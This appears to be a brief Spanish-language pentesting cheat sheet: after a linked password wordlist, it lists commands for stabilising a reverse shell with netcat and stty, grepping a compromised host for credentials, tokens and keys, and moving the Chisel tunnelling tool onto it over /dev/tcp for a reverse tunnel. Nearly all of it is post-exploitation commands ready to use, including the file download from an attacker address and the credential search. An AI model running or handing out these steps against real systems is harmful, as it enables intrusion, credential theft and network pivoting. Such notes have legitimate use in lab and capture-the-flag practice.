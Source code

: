 
## Diccionarios  

https://github.com/NullWin/DiccionarioArgentino  


## Tips  

### Comandos al ingresar por shell (reverse shell)  

whoami  
ifconfig o ip a  
  
script /dev/null -c bash  
^Z  
stty raw echo -echo; fg  
nc -nlvp 443  
reset  

terminal ? xterm  
export TERM=xterm  
export SHELL=bash  

en una ventana mia ejecutar: stty -a   
Y ver la cantidad de filas y columnas, para configurar lo mismo en la maquina remota  
stty rows 53 columns 206  

Buscamos credenciales  
grep -r -i -E "user|pass|key|token"  

Buscamos archivos   
find \-type f 2>/dev/null  

Script en python:  
https://pastebin.com/5GqY54FG  

### Chisel  
https://github.com/jpillora/chisel  

truco para compilar a bajo peso:  
go build -ldflags "-s -w"  
du -hc chisel  
upx brute chisel  
du -hc chisel  

> upx comprime binarios

desde maquina local hacer:  
nc -lnvp 443 < chisel  
y en maquina virtual:  
cat > chisel < /dev/tcp/ipxxx/443

maquina local:  
./chisel server --reverse -p puerto    

maquina ataque:  
./chisel client ip:puerto  

